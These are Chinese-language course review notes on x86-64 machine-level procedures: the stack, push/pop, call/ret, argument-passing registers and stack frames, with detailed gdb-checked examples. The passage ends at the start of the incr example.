跳转表位于 0x402000，jmp *0x402000(,%rax,8) 中 %rax = 3，从哪个地址读取目标？
为什么 shrq %rdi; jne .L2 中间不需要 test 或 cmp？
absdiff 的条件传送版本中，若把 cmpq 放在第一条指令，会发生什么？
自测题答案#
3 − 5 = −2：无符号需要借位，CF = 1；ZF = 0；SF = 1；OF = 0（已实测）。setb 看 CF，得 1（无符号 3 < 5）；setl 看 SF^OF = 1，得 1（有符号 3 < 5）。
TMin − 1 溢出为 TMax：CF = 0（无符号 2⁶³ ≥ 1）、ZF = 0、SF = 0、OF = 1（已实测）。setl 看 SF^OF = 1，得 1，正确判断 TMin < 1；若只看 SF 就会得出错误结论。
cmpq %rsi, %rdi; setae %al; movzbl %al, %eax; ret（ae 为无符号 >=；gcc 13 实际输出同义写法 setnb）。
testq 后 OF = 0、ZF 表示 rax == 0、SF 表示 rax < 0，所以 jle（(SF^OF)|ZF）在 %rax <= 0（有符号）时跳转。
第一种写法是“跳转到中间”，即 goto test; loop: s += a[i]; i++; test: if (i < n) goto loop;；第二种写法是“guarded-do”，即 if (!(i < n)) goto done; loop: s += a[i]; i++; if (i < n) goto loop; done:。
只有（a）安全：两边都是简单、无副作用的算术。（b）可能解引用空指针；（c）可能除以 0；（d）函数调用可能有副作用且代价未知。
5 项（100～104，其中 102 指向 default）。subq $100, %rdi; cmpq $4, %rdi; ja default; jmp *.L(,%rdi,8)。
0x402000 + 3 × 8 = 0x402018，读出该处的 8 字节作为跳转目标。
移位指令本身根据结果设置 ZF，jne 直接使用 shrq 设置的 ZF，即判断移位后的 x 是否为 0。
两个 subq 会重新设置条件码，覆盖 cmpq 的结果，cmovle 依据的就变成了最后一个 subq（y − x）的结果，逻辑错误。所以 cmp 必须紧挨在 cmov 之前（中间只能是不改条件码的指令）。
—— 第 5 讲讲义完 ——
计算机系统导论（ICS）
复习讲义 · 第 6 讲
程序的机器级表示 III：过程（Machine-Level Programming III: Procedures）
如何使用本讲义#
本讲回答一个问题：一个函数怎样调用另一个函数，并在之后正确地回来？答案由三部分组成——栈（一块按后进先出方式使用的内存）、指令（push/pop、call/ret）和约定（参数放哪、返回值放哪、哪些寄存器要保存）。讲义中的栈图统一按“高地址在上、低地址在下”绘制，栈向下增长；颜色含义固定如下：
| 颜色 | 栈中内容 |
|---|---|
| 黄 | 返回地址（由 call 压入） |
| 紫 | 被保存的寄存器（如旧 %rbx、旧 %rbp） |
| 蓝 | 局部变量 |
| 橙 | 通过栈传递的参数（第 7 个及以后） |
| 灰 | 未使用的空间、对齐填充或调用者的数据 |
表 1 第 6 讲内容地图
| 课件部分 | 核心问题 | 本讲义小节 |
|---|---|---|
| Mechanisms（p.4–8） | 过程调用需要哪三种机制？什么是 ABI？ | 6.1 |
| Stack Structure（p.10–17） | 栈在哪里、怎样增长；push / pop | 6.2 |
| Passing control（p.19–24） | call / ret 如何保存和使用返回地址 | 6.3 |
| Passing data（p.26–27） | 参数和返回值放在哪里 | 6.4 |
| Managing local data（p.29–65） | 栈帧；incr 示例；调用者保存与被调用者保存 | 6.5–6.7 |
| Illustration of Recursion（p.67–75） | 递归为什么“自然成立” | 6.8 |
第一部分 第 6 讲知识点：过程#
课件 p.2 列出了本讲的学习目标：掌握 push/pop 与 call/ret 这两对指令的基本功能；能识别栈中的各个组成部分（返回地址、参数、被保存的寄存器、局部变量）；能解释调用者保存与被调用者保存寄存器的区别；能解释栈如何使函数可以递归调用、可重入。
6.1 过程调用的三种机制（课件 p.4–8）#
“过程”（procedure）是对函数、方法、子例程等概念的统称。设过程 P 调用过程 Q，Q 执行完后返回 P，这包含三种机制：
表 2 过程的三种机制（课件 p.4–7 依次高亮）
| 机制 | 具体内容 | 课件例子中的体现 |
|---|---|---|
| 传递控制（passing control） | 进入 Q 时，程序计数器必须设为 Q 代码的起始地址；返回时，设为 P 中调用 Q 之后那条指令的地址 | y = Q(x); 跳到 Q；Q 执行完回到 print(y) |
| 传递数据（passing data） | P 必须能向 Q 提供参数，Q 必须能向 P 返回一个值 | x 作为参数 i 传入 Q；v[t] 作为返回值传回 P |
| 分配和释放内存（memory management） | Q 开始时可能要为局部变量分配空间，返回前必须释放这些空间 | Q 中的 int v[10] 在 Q 执行期间存在，Q 返回后失效 |
这些机制全部由机器指令实现，而且 x86-64 的过程只使用确实需要的机制：没有局部变量的函数不分配栈空间，参数少于 7 个时不用栈传参，叶子函数（不再调用其他函数）若局部变量都能放进寄存器，就完全不需要栈帧。课件 p.8 进一步指出：机器指令实现了这些机制，但具体怎么用是设计者的选择，这些选择构成了应用程序二进制接口（ABI）。例如“第一个参数放在 %rdi”并不是硬件规定，而是 Linux 上的 System V ABI 的约定，只要大家都遵守，不同编译器、不同人写的代码就能相互调用。研讨题 1（2）（3）对 ABI 有详细讨论。
6.2 x86-64 的栈与 push / pop（课件 p.10–17）#
栈（stack）是内存中按“栈规则”（后进先出）管理的一块区域。内存只是一个字节数组，不同的区域有不同用途（代码、全局数据、堆、栈），这种划分本身也是一种约定，就像 ABI 一样（p.10）。x86-64 的栈有三个要点（p.11–12）：
栈向低地址方向增长，栈“底”在高地址，栈“顶”在低地址。课件和教材的图都把高地址画在上面，所以栈“顶”画在下方。
寄存器 %rsp 保存栈中最低的地址，即栈顶元素的地址，称为栈指针。
栈中保存的是数据的副本，没有变量名，也不记得“这是从哪个寄存器来的”。
| 指令 | 操作步骤（课件 p.13–17） | 等价写法 |
|---|---|---|
pushq Src | ① 取出操作数 Src 的值；② %rsp 减 8；③ 把值写到新的 %rsp 指向的地址 | subq $8,%rsp + movq Src,(%rsp) |
popq Dest | ① 读出 %rsp 指向地址处的 8 字节；② %rsp 加 8；③ 把值存入 Dest（通常是寄存器） | movq (%rsp),Dest + addq $8,%rsp |

图 1 push 与 pop 对栈和 %rsp 的影响
注意课件 p.17 的提醒：pop 之后内存并不改变，只有 %rsp 的值改变。弹出的数据仍然留在原地，只是不再属于栈；下一次 push 会把它覆盖。这也是为什么函数返回后，指向它局部变量的指针会变成“悬空指针”：内存里的值也许还在，但随时会被后续调用覆盖。
常见问题：push / pop 的细节
push/pop 一次操作 8 字节，不修改条件码；64 位模式下没有 pushl/popl。
pushq %rdi 保存的是地址数值本身；pushq (%rdi) 保存的是该地址处的 8 字节。
64 位数 10 被压到 0x0FF8 时，从 0x0FF8 起的字节为 0A 00 00 00 00 00 00 00（小端）。字节序与栈的增长方向是两个独立的概念。
还有一个特殊情况：pushq %rsp 压入的是减 8 之前的 %rsp；popq %rsp 的最终结果是弹出的值。
push/pop 不检查“栈空”；不配对的 pop 可能读走返回地址，导致 ret 跳到错误的地方。
6.3 传递控制：call 与 ret（课件 p.19–24）#
void multstore(long x, long y, long *dest) 0000000000400540 <multstore>:
{ 400540: push %rbx # Save %rbx
long t = mult2(x, y); 400541: mov %rdx,%rbx # Save dest
*dest = t; 400544: callq 400550 <mult2>
} 400549: mov %rax,(%rbx) # Save at dest
40054c: pop %rbx # Restore %rbx
long mult2(long a, long b) 40054d: retq
{ 0000000000400550 <mult2>:
long s = a * b; 400550: mov %rdi,%rax # a
return s; 400553: imul %rsi,%rax # a * b
} 400557: retq| 指令 | 效果（课件 p.20） |
|---|---|
call Label | ① 把返回地址压栈；② 跳转到 Label。返回地址是紧跟在 call 之后的那条指令的地址 |
call *Operand | 间接调用：目标地址取自寄存器或内存（如函数指针 call *%rax） |
ret | ① 从栈中弹出一个地址；② 跳转到这个地址 |

图 2 multstore 调用 mult2 时栈与 %rip 的变化（课件 p.21–24）
课件 p.21–24 的四个快照：① 执行 0x400544 处的 call 之前，%rsp = 0x120，%rip = 0x400544；② call 把返回地址 0x400549（call 指令长 5 字节，0x400544 + 5）压入地址 0x118，%rsp 变为 0x118，%rip 变为 mult2 的入口 0x400550；③ mult2 执行到 0x400557 的 retq 时，栈没有变化；④ ret 弹出 0x400549 放入 %rip，%rsp 回到 0x120，multstore 从 call 的下一条指令继续执行。研讨题 1（5）对整个函数逐条指令做了跟踪。
★ 要点
call 只做两件事：压入返回地址、跳转。它不保存寄存器，不传递参数，不分配局部变量——这些都由 ABI 约定、由普通指令完成。
返回地址是“回到哪里继续执行”（存在栈上），返回值是“函数算出了什么”（存在 %rax 中），二者毫无关系。
ret 使用的是当前栈顶的值。如果函数没有把栈恢复原样，ret 就会跳到错误的地方——缓冲区溢出攻击（Attack Lab）正是利用了这一点。
jmp 不保存返回地址，所以“jmp 过去”之后没有内建的方法回来。
常见问题：call 指令中的目标地址是怎样写进机器码的？
反汇编中看到的 callq 400550 <mult2> 是反汇编器替我们算好的结果，机器码里存放的并不是绝对地址 0x400550。直接调用 call Label 的编码是 1 字节操作码 e8 加上 4 字节有符号偏移量 rel32，CPU 执行时以“下一条指令的地址 + rel32”作为跳转目标，而这个“下一条指令的地址”恰好就是 call 要压栈的返回地址。按课件 p.19 的地址推算：call 位于 0x400544，长 5 字节，返回地址为 0x400549，目标为 0x400550，因此 rel32 = 0x400550 − 0x400549 = 7，按小端存放就是 e8 07 00 00 00。用 gcc 13 -no-pie 编译同样的 multstore/mult2 并链接后实测：call 位于 0x401132，机器码为 e8 ef ff ff ff，偏移 0xffffffef 即 −17，目标为 0x401137 − 17 = 0x401126，正是 mult2 的入口；被调函数位于调用点之前时偏移为负数。
采用相对偏移的好处是，整段代码搬到别的地址时 call 的编码不用修改，这与第 5 讲 jmp、jX 采用 PC 相对编码是同一个思路，也是第 8 讲 PIE 能够成立的基础。只汇编、尚未链接的 .o 文件中，这 4 个字节暂时是 00 00 00 00，要等链接器确定 mult2 的位置后才填入（链接在后续课程中讲）。间接调用 call *%rax（例如通过函数指针调用）没有 rel32，目标地址直接取自寄存器或内存，实测编码为 ff d0。
6.4 传递数据：参数与返回值（课件 p.26–27）#
表 3 整数与指针参数的传递（课件 p.26；教材图 3.28）
| 参数序号 | 1 | 2 | 3 | 4 | 5 | 6 | 7 及以后 | 返回值 |
|---|---|---|---|---|---|---|---|---|
| 64 位 | %rdi | %rsi | %rdx | %rcx | %r8 | %r9 | 栈 | %rax |
| 32 位 | %edi | %esi | %edx | %ecx | %r8d | %r9d | 栈 | %eax |
| 16 位 | %di | %si | %dx | %cx | %r8w | %r9w | 栈 | %ax |
| 8 位 | %dil | %sil | %dl | %cl | %r8b | %r9b | 栈 | %al |
前 6 个整数（含指针）参数用寄存器传递，按大小使用对应的寄存器名；第 7 个及以后的参数放在栈上，参数 7 在最靠近栈顶的位置（地址最低），即被调用者入口处的 8(%rsp)，参数 8 在 16(%rsp)，依此类推（(%rsp) 处是返回地址）。栈上的每个参数都按 8 字节对齐。课件强调“只在需要时才分配栈空间”。浮点参数另用 %xmm0～%xmm7 传递（第 7 讲）。
long proc8(long a1, long a2, long a3, long a4, call8:
long a5, long a6, long a7, long a8) pushq $8 # 参数 8 先压
{ return a1+a2+a3+a4+a5+a6+a7+a8; } pushq $7 # 参数 7 在栈顶
movl $6, %r9d
long call8(void) movl $5, %r8d
{ return proc8(1,2,3,4,5,6,7,8); } movl $4, %ecx
movl $3, %edx
proc8: movl $2, %esi
... movl $1, %edi
leaq (%rdi,%r9), %rax call proc8
addq 8(%rsp), %rax # 参数 7 addq $16, %rsp # 回收参数区
addq 16(%rsp), %rax # 参数 8 ret课件 p.27 用 multstore 说明数据流：进入 multstore 时 x、y、dest 分别在 %rdi、%rsi、%rdx；调用 mult2 时，x、y 恰好已经在 mult2 需要的 %rdi、%rsi 中，无需移动；mult2 的结果 s 在 %rax 中返回，multstore 把它当作 t 使用。dest 在 %rdx 中，而 %rdx 可能被 mult2 改写，所以 multstore 先把它保存到 %rbx（6.7 节解释原因）。
常见问题：int 参数放在 %rdi 中时，高 32 位是什么？
表 3 中 int 参数使用 %edi，ABI 只规定了低 32 位的内容，不保证高 32 位是什么。所以被调用者如果要把 int 参数当作 64 位数使用，必须自己做扩展：gcc 13 -Og 把 long widen(int x) { return x; } 编译为 movslq %edi, %rax（符号扩展），而 unsigned 参数的版本编译为 movl %edi, %eax，利用“写 32 位寄存器会把高 32 位清零”的规则完成零扩展（第 4 讲）。第 7 讲 get_digit 中多出的那条 movslq 也是同样的原因。
再从调用者一侧看，调用 h(-1) 时 gcc 生成的是 movl $-1, %edi，执行后 %rdi 的 64 位内容是 0x00000000FFFFFFFF，而不是 −1 的 64 位编码 0xFFFFFFFFFFFFFFFF。用一个直接返回 %rdi 的汇编函数实测，传入 −1 时读到的正是 0xffffffff。反过来，调用者把 int 实参传给 long 形参时，转换由调用者在 C 语义下完成：long caller(int a) { return g(a); } 实测在 call g 之前先执行 movslq %edi, %rdi。因此读汇编时，看到 int 参数只能信任 %edi，不能把 %rdi 当成已经扩展好的 64 位数。
6.5 栈帧（课件 p.29–43）#
支持递归的语言（C、Pascal、Java 等）要求代码是可重入的（reentrant）：同一个过程可以同时存在多个“实例”（例如递归调用时，外层调用还没结束，内层调用又开始了）。每个实例都需要一个地方存放自己的状态：参数、局部变量、返回地址（p.29）。
栈规则恰好满足这一需求：一个过程实例的状态只在有限时间内需要——从被调用到返回；而且被调用者一定比调用者先返回。所以可以按栈帧（frame）分配空间：每次调用时在栈顶分配一个栈帧存放该实例的状态，返回时释放。栈帧的分配由过程开头的“建立”（set-up）代码完成，包括 call 指令压入的返回地址；释放由过程结尾的“结束”（finish）代码完成，包括 ret 指令弹出返回地址（p.31）。帧指针 %rbp 是可选的。

图 3 调用链 yoo → who → amI（递归）中栈帧随时间的变化（课件 p.30、32–42）
课件 p.30 的例子：yoo 调用 who，who 两次调用 amI，amI 是递归的。p.32–42 逐帧显示了栈的变化：yoo 的帧 → 压入 who 的帧 → 压入 amI 的帧 → amI 递归又压入两层 amI 的帧（此时栈最深）→ 三层 amI 依次返回、帧依次弹出 → who 第二次调用 amI，在同一块栈空间上重新建立一个 amI 的帧 → 返回 → who 返回 → 只剩 yoo。任一时刻，栈中的帧序列恰好就是从 main 到当前函数的调用链。
yoo(...) who(...)
{ {
... ...
who(); amI(); amI(...)
... ... {
} amI(); ...
... amI();
} ...
}
图 4 x86-64/Linux 栈帧的一般结构（课件 p.43、75；教材图 3.25）
表 4 栈帧的组成（课件 p.43）
| 区域 | 内容 | 何时存在 |
|---|---|---|
| 参数 7+（属于调用者的帧） | 调用者为本次调用准备的第 7 个及以后的参数 | 参数多于 6 个时 |
| 返回地址（属于调用者的帧） | 由 call 指令压入 | 总是 |
| 旧 %rbp | 使用帧指针时，保存调用者的 %rbp | 可选（gcc 开优化（-Og、-O1 及以上）时通常不用；-O0 时使用） |
| 被保存的寄存器 + 局部变量 | 被调用者保存寄存器的旧值；无法放在寄存器里的局部变量（寄存器不够、需要取地址 &、是数组或结构体） | 需要时 |
| 参数构造区 | 本过程调用其他函数时，为其准备第 7+ 个参数 | 需要时 |
具体例子：把 demo 的栈帧完整画出来#
图 3 只画出了栈帧随时间的先后顺序，图 4 是栈帧的通用模板。研讨题和考试真正要求的，是拿到一段汇编以后，把某一时刻栈上每 8 个字节放的是什么、由哪条指令放进去、之后被谁读取，一格一格地画出来。下面选一个能把模板中各个区域都用上的函数 demo：它有一个必须放在栈上的数组 buf（对应“局部变量”区）；有两个在调用之后还要用的参数 x、y，编译器会把它们放进被调用者保存寄存器，于是 demo 必须先把这些寄存器的旧值存到栈上（对应“被保存的寄存器”区，这条规则的来龙去脉见 6.7 节，这里只需知道“用之前先压栈保存、返回前弹出恢复”）；它还调用了一个有 8 个参数的函数 leaf8（对应“参数构造区”）。fill 和 leaf8 定义在另一个文件里，gcc 编译 demo 时看不到它们的实现，只能严格按 ABI 处理，所以下面的汇编没有 6.6 节提示框里提到的“同文件优化”带来的特殊情况。
long leaf8(long a1, long a2, long a3, demo:
long a4, long a5, long a6, pushq %rbp # 保存 main 的 %rbp
long a7, long a8); pushq %rbx # 保存 main 的 %rbx
void fill(long *p); subq $24, %rsp # buf 16 字节 + 填充 8
movq %rdi, %rbp # %rbp = x
long demo(long x, long y) movq %rsi, %rbx # %rbx = y
{ movq %rsp, %rdi # 参数 1：&buf
long buf[2]; /* 数组：在栈上 */ call fill
fill(buf); /* 传出地址 */ pushq %rbp # 参数 8：x
long r = leaf8(1, 2, 3, 4, 5, 6, pushq 8(%rsp) # 参数 7：buf[0]
buf[0], x); movl $6, %r9d # 参数 6
return r + y + buf[1]; movl $5, %r8d # 参数 5
} movl $4, %ecx # 参数 4
movl $3, %edx # 参数 3
movl $2, %esi # 参数 2
movl $1, %edi # 参数 1
call leaf8
addq %rbx, %rax # r + y
addq 24(%rsp), %rax # + buf[1]
addq $40, %rsp # 释放参数与局部区
popq %rbx # 恢复 main 的 %rbx
popq %rbp # 恢复 main 的 %rbp
ret画栈帧最可靠的顺序是先从 C 代码推断帧里需要什么，再用汇编核对。第一，buf 是数组，而且它的地址要传给 fill；寄存器没有地址，所以 buf 的 16 个字节必须放在栈上。第二，x 和 y 在调用之后还要使用（x 是 leaf8 的第 8 个参数，y 参与最后的求和），而它们进来时所在的 %rdi、%rsi 是调用者保存寄存器，fill 可以随意改写，因此 gcc 把它们搬进被调用者保存寄存器 %rbp 和 %rbx；代价是 demo 自己也成了“被调用者”，必须先把这两个寄存器中属于 main 的旧值压栈，返回前再弹回去。第三，leaf8 有 8 个参数，前 6 个放在 %rdi、%rsi、%rdx、%rcx、%r8、%r9，第 7、8 个只能放在栈上，而且参数 7 必须在较低的地址（被调用者入口处的 8(%rsp)）。最后还有对齐约束：ABI 要求执行 call 时 %rsp 是 16 的倍数。demo 入口处的栈顶是 main 压入的返回地址，记这个地址为 A，则 A ≡ 8 (mod 16)；两次 push 之后 %rsp = A − 16，仍然 ≡ 8。如果只为 buf 减去 16，调用 fill 时 %rsp ≡ 8，不满足要求，所以 gcc 多减 8 字节，写成 subq $24, %rsp，多出来的 8 字节就是图 5 中灰色的填充。调用 leaf8 前又压入了 16 字节参数，%rsp = A − 56 ≡ 0，同样满足对齐。表 5 按执行顺序列出每条指令对栈的影响。
表 5 demo 栈帧的逐条建立过程（设 demo 入口处 %rsp = A，A 处是返回地址）
| 指令 | 执行后 %rsp | 栈与寄存器的变化 | 对应图 4 的区域 |
|---|---|---|---|
（入口） | A | M[A] = 0x40120a：main 中 call demo 压入的返回地址 | 返回地址（属于 main 的帧） |
pushq %rbp | A − 8 | M[A − 8] = main 的 %rbp | 被保存的寄存器 |
pushq %rbx | A − 16 | M[A − 16] = main 的 %rbx | 被保存的寄存器 |
subq $24, %rsp | A − 40 | buf[0] 在 A − 40（即 0(%rsp)），buf[1] 在 A − 32，A − 24 处 8 字节为对齐填充 | 局部变量 + 填充 |
movq %rdi, %rbpmovq %rsi, %rbx | A − 40 | %rbp = x = 10，%rbx = y = 20（只动寄存器，不动栈） | — |
movq %rsp, %rdicall fill | A − 40 | %rdi = A − 40 = &buf；fill 执行期间返回地址暂存在 A − 48，fill 写入 buf[0] = 100、buf[1] = 200 后返回 | — |
pushq %rbp | A − 48 | M[A − 48] = x = 10（参数 8） | 参数构造区 |
pushq 8(%rsp) | A − 56 | 源地址按执行前的 %rsp 计算：8 + (A − 48) = A − 40，读出 buf[0] = 100，写入 M[A − 56]（参数 7） | 参数构造区 |
movl $6, %r9d...movl $1, %edi | A − 56 | 参数 1～6 放入寄存器（写 32 位寄存器会把高 32 位清零） | — |
call leaf8 | A − 64 | M[A − 64] = 0x401164（call 的下一条指令 addq %rbx, %rax 的地址），跳转到 leaf8 | 返回地址（属于 demo 的帧） |

图 5 执行到 leaf8 第一条指令时的完整栈（demo(10, 20)；x86-64 Linux 上 gdb 实测的地址与数值）
图 5 是 leaf8 刚被调用、还没有执行它自己任何一条指令时的快照，地址和数值都是在 x86-64 Linux 上用 gdb 设断点实际读出的（换一台机器或换一组环境变量，绝对地址会变，但相对于 A 的偏移不变）。从上往下读：0x40120a 是 main 中 call demo 的下一条指令地址，按教材的约定，返回地址算作调用者（main）栈帧的一部分；demo 的栈帧从 A − 8 开始，依次是两个被保存的寄存器、8 字节填充、buf[1] 和 buf[0]。注意数组下标小的元素在低地址，buf[0] 恰好位于 subq 之后的栈顶，所以 movq %rsp, %rdi 就得到了 &buf。再往下是为 leaf8 准备的两个栈参数，最后是 call leaf8 压入的返回地址 0x401164。整个 demo 帧从 A − 8 到 A − 64，共 64 字节。对照图 4，模板中的每个区域在这里都有了具体内容：紫色两格是“被保存的寄存器”，蓝色和灰色是“局部变量”区，橙色两格从 demo 的角度看是它的“参数构造区”，从 leaf8 的角度看就是图 4 顶部的“参数 7、参数 8”。同一块内存，在调用者看来是自己帧的底部，在被调用者看来是上一帧的顶部，这正是栈帧之间传递参数的方式。
用 %rsp 寻址时最容易出错的地方是：同一个变量在不同时刻的偏移量不同，因为 %rsp 自己在移动。buf[0] 在 subq 之后是 0(%rsp)；执行 pushq %rbp 后 %rsp 下移 8 字节，buf[0] 就变成了 8(%rsp)，所以紧接着的 pushq 8(%rsp) 压入的正是 buf[0]，而不是刚压进去的 x。push 先按执行前的 %rsp 算出源操作数地址并读出数值，再把 %rsp 减 8、写入新栈顶，gdb 实测参数 7 的值为 100，证实了这一点。同理，leaf8 返回后 %rsp = A − 56，buf[1] 在 A − 32，于是代码写成 24(%rsp)；而在 leaf8 内部，栈顶是返回地址，参数 7、8 分别在 8(%rsp) 和 16(%rsp)，与 6.4 节的结论一致。读这类汇编时不要孤立地看偏移量，而要始终记录“当前 %rsp = A − ?”，再把每个 k(%rsp) 换算成相对 A 的位置，落到图中对应的格子上。
返回阶段按与建立时相反的顺序拆除栈帧：addq $40, %rsp 一次性释放 16 字节栈参数和 24 字节局部区，%rsp 回到 A − 16（这些内存里的数据并没有被清除，只是不再属于栈，下一次压栈会覆盖它们）；popq %rbx、popq %rbp 按与压栈相反的顺序恢复 main 的两个寄存器，%rsp 回到 A；最后 ret 弹出 0x40120a 并跳回 main。leaf8 返回 1 + 2 + 3 + 4 + 5 + 6 + 100 + 10 = 131，demo 返回 131 + 20 + 200 = 351，程序实际输出也是 351。这个例子还说明，-Og 下 gcc 不使用帧指针：%rbp 被当作普通的被调用者保存寄存器，用来存放 x，这就是表 4 中“旧 %rbp”一行标为“可选”的原因。另外，如果不加 -fno-stack-protector（Ubuntu 的 gcc 默认开启栈保护），gcc 13 实测会改为 subq $40, %rsp，在 A − 32 处多放一个 8 字节的金丝雀值，buf 下移到 A − 56～A − 41，其余结构不变；读别人给出的汇编时，见到 %fs:40 就知道帧里多了这一格。
★ 画栈帧的步骤（研讨题、考试通用）
设入口处 %rsp = A，A 处是返回地址；A + 8 起是调用者为本函数准备的参数 7、8……（若有）。
按 push 的顺序，从 A − 8 往下依次写出被保存的寄存器。
由 subq $n, %rsp 划出 n 字节的局部区，再根据代码中出现的 k(%rsp)、leaq k(%rsp) 确定每个局部变量的位置，剩下的格子是填充或未使用。
调用前用 push 或 movq …, k(%rsp) 构造的是栈参数：参数 7 在最低地址，参数 8 在它上方。
call 压入的返回地址 = call 的下一条指令的地址。用“每次 call 之前 %rsp 都是 16 的倍数”验算前面各步是否画对。
每条改变 %rsp 的指令（push、pop、subq、addq、call、ret）之后，都要重新换算 k(%rsp) 指向哪一格。
6.6 示例：incr 与 call_incr（课件 p.44–53）#
long incr(long *p, long val) { incr:
long x = *p; movq (%rdi), %rax # x = *p
long y = x + val; addq %rax, %rsi # y = x + val
*p = y; movq %rsi, (%rdi) # *p = y
return x; ret # return x
}long call_incr() { call_incr:
long v1 = 15213; subq $16, %rsp # 分配 16 字节栈帧
